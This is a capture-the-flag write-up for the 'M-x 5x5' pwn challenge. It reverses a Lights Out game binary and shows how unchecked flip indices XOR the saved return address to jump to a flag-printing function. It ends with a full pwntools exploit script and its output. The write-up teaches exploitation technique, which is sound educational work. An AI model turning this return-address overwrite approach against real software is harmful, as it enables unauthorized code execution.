

# M-x 5x5 (pwn)




### TL;DR
[x64 binary](./M-x-5x5) 

* Tile flipping game played over netcat
    * Like http://www.logicgamesonline.com/lightsout/
* Board is stored on the stack
* Out of bounds "flips" = partial XOR of a return address => win function

**watevr{maybe_well_implement_M-x_tetris_some_day}**

## Recon

This was a fun challenge in reverse engineering. We get a binary that lets us play the Light's Out game. It has poor security options so that's good for us.
```
$ checksec M-x-5x5
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

A demo of what playing the game looks like is:

```bash
$ ./M-x-5x5 
Welcome to Emacs Lite!
Implemented commands in this version are: M-x 5x5
Press enter to run M-x 5x5

Welcome to 5x5!
Board size (1 to 8)? 5
.....
.....
.....
.....
.....

[f <x> <y>/h/q]: f 3 2    /* f/h/q = flip/help/quit */
.....
...#.
..###
...#.
.....
[f <x> <y>/h/q]: 
```

## Light reversing

A quick view in a disassembler or decompiler shows us that winning the game doesn't actually give us any reward apart from a cute message:

```c
int main() {
  int local_14;
  char *local_10;
  
  setbuf(stdout,(char *)0x0);
  fflush(stdin);
  local_10 = "Bye!";
  puts("Welcome to Emacs Lite!");
  puts("Implemented commands in this version are: M-x 5x5");
  puts("Press enter to run M-x 5x5");
  __isoc99_scanf(&DAT_00400cb3,&local_14);
  local_14 = play_game();
  if (local_14 != 0) {
    local_10 = "Good job, you won!";
  }
  puts(local_10);
  return 0;
}
```
We manage to spot a win function located in the binary which just prints the flag to stdout. 
```c
void print_flag() {
  undefined8 local_48;
  /* omitted */
  undefined2 local_a;
  
  local_48 = 0x527b727665746177;
  /* omitted */
  local_18 = 0x7d7d45525f444554;
  local_10 = 0;
  local_e = 0;
  local_a = 0;
  printf("here you go: %s",&local_48);
  return;
}
```
It does not, however, have any references to it and we are unable to spot any dynamic jumps in the code. At this point we hope to find a way to redirect code flow to this point. All the input in the binary is handled by safely used `scanf` calls, so we are unable to find any sort of overflow vulnerability. Now your spider sense should be tingling, because yes: The indexes we choose when flipping tiles are not properly bounds checked, and thus parts of the stack is XORed! We can use this vulnerability to partially overwrite the return address of the main game loop. 

So let's check out the `flip` function.

```c
void flip(long board_base, uint index) {
  int row_idx;
  sbyte col_idx;
  byte local_c;
  
  row_idx = (int)index >> 4;
  col_idx = (sbyte)(index & 0xf);
  if (0 < row_idx) {
    *(byte *)(board_base + (long)row_idx - 1) = 
    *(byte *)(board_base + (long)row_idx - 1) ^ (byte)(1 << col_idx);
  }
  local_c = 3;
  if ((index & 0xf) != 0) {
    local_c = (byte)(7 << (col_idx - 1U & 0x1f));
  }
  *(byte *)(board_base + (long)row_idx) = 
  *(byte *)(board_base + (long)row_idx) ^ local_c;
  if (row_idx < 0xf) {
    *(byte *)(board_base + (long)row_idx + 1) = 
    *(byte *)(board_base + (long)row_idx + 1) ^ (byte)(1 << col_idx);
  }
  return;
}
```
A little bit of debugging confirms that the return address of our parent function is located at `board_base+0x10`:
```bash
RDI: 0x7fffffffdc28 --> 0x7ffff7ff0000 
       ^ board_base
[-------------------------------------code-------------------------------------]
   0x400854 <show_board+149>:	ret    
   0x400855 <flip>:	push   rbp
   0x400856 <flip+1>:	mov    rbp,rsp
=> 0x400859 <flip+4>:	mov    QWORD PTR [rbp-0x18],rdi
   0x40085d <flip+8>:	mov    DWORD PTR [rbp-0x1c],esi
   0x400860 <flip+11>:	mov    DWORD PTR [rbp-0x20],edx
   0x400863 <flip+14>:	mov    eax,DWORD PTR [rbp-0x1c]
   0x400866 <flip+17>:	and    eax,0xf
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdbf0 --> 0x7fffffffdc30 --> 0x7fffffffdc50 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
0008| 0x7fffffffdbf8 --> 0x400ac5 (<play_game+390>:	nop)
0016| 0x7fffffffdc00 --> 0x400e1a ("Press enter to run M-x 5x5")
0024| 0x7fffffffdc08 --> 0x100000011 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ x/4gx 0x7fffffffdc28
0x7fffffffdc28:	0x00007ffff7ff0000	0x00007fffffffdc50
0x7fffffffdc38:	0x0000000000400b6f	0x00007f0affffdd30
                ^^^ret addr of game_loop!
```

So now we need to turn `0x400b6f` into `0x400737`, the address of `print_flag`.

## Battle plan

Recall that `flip` does multiple writes (XORs). One to `*(*byte)board_base+row` and one to `*(*byte)board_base+row`. (it actually does a third write which is irrelevant if `row_idx > 0xe`, which it is in this case).

Any how, these are the writes:

```c
*(byte *)(board_base + (long)row_idx - 1) = 
*(byte *)(board_base + (long)row_idx - 1) ^ (byte)(1 << col_idx);

local_c = 3;
if ((index & 0xf) != 0) {
    local_c = (byte)(7 << (col_idx - 1U & 0x1f));
}
*(byte *)(board_base + (long)row_idx) = 
*(byte *)(board_base + (long)row_idx) ^ local_c;
```

`col_idx` thus somehow controls what value we XOR the bytes with.

After some trial, error and :thinking:, we realize that we can solely utilize the second `write` repeatedly. First, for targetting `row_idx=17` so that we overwrite the second lowest byte of the return address:
```
0x400b6f  :  we want to flip 0b to 07. 
    ^^
```

Doing this will also change the lowest byte `6f` to something we don't know yet. So after this, we want to target the lowest byte by using `row_idx=16`.
```
0x4007XX  :  we want to flip XX to 37. 
      ^^
```

## Instrumenting the plan
Lifting the small code out to a C script to calculate which values we get to XOR with (once again, dependent on `col_idx`)
```
for (int i = 0; i < 10; i++){
    printf("@[%d] : \t %02hhx\n", i, 7 << ((i - 1U) & 0x1f));
}
```
=>
```c
[0] : 00    /* 00000000 */ 
[1] : 07    /* 00000111 */ 
[2] : 0e    /* 00001110 */ 
[3] : 1c    /* 00011100 */ 
[4] : 38    /* 00111000 */ 
[5] : 70    /* 01110000 */ 
[6] : e0    /* 11100000 */ 
[7] : c0    /* 11000000 */ 
[8] : 80    /* 10000000 */ 
[9] : 00    /* 00000000 */ 
```
Using combinations of these operands we can generate any byte with XOR! Great! Now let's find out the order for XORing `0x0b` into `0x07` with these. `itertools` is great for this. Excuse me for perhaps making your eyes bleed when you view my algorithm skills below.

```python
#!/usr/bin/python2
import itertools
 
def xor(index, number):
    table= [ 
        int('00000000', 2),
        int('00000111', 2),
        int('00001110', 2),
        int('00011100', 2),
        int('00111000', 2),
        int('01110000', 2),
        int('11100000', 2),
        int('11000000', 2),
        int('10000000', 2),
        int('00000000', 2),
            ]
    number = (number ^ table[index]) % 0x100
    return number

for i in range(10):
    for j in range(10):
        for combo in itertools.combinations(range(i), j):
            number = 0xB
            for k in combo:
                number = xor(k, number)
                if number == 0x07: 
                    print "Got'em:", combo
                    exit(1) 
```
==> `Got'em: (3, 5, 6, 8)`

By using `gdb` and `pwntools` we are able to figure out what the lower byte of the return address is changed to as a result of this: `0x07`
Reuse the python script to figure out how wo flip `0x07` into `0x37`.
It turns out returning to `0x400737` caused the program to crash. Viewing the disassembly shows that `0x400738` should work instead.
```
                    print_flag:
        00400737 55              PUSH       RBP
        00400738 48 89 e5        MOV        RBP,RSP
        0040073b 48 83 ec 40     SUB        RSP,0x40
```

## Solution

`exploit.py`

```python
#!/usr/bin/python2

from pwn import *

with context.quiet:
      #p = process('./M-x-5x5')
      p = remote('13.53.187.163', 50000)
      p.sendline()
      p.sendlineafter('8)? ', "8") # Size of board doesn't actually matter

      #gdb.attach(p, """
      #    b *0x4008f7
      #    b *0x0000000000400acc
      #    b *0x00000000004008ae
      #""")

      xors_1 = [3, 5, 6, 8]
      xors_2 = [1, 4]

      # Flipping the correct tiles => actually XORing 
      # parts of the main loop's return pointer on the stack
      for x in xors_1:
          p.sendlineafter('q]: ', "f %s 17" % str(x)) # Flip row 17, col x
      for x in xors_2:
          p.sendlineafter('q]: ', "f %s 16" % str(x)) # Flip row 16, col x
      p.sendlineafter('q]: ', "q")
      p.interactive()
      p.close()
```

```b
$ ./exploit.py 
here you go: watevr{watevr{maybe_well_implement_M-x_tetris_some_day}}
```
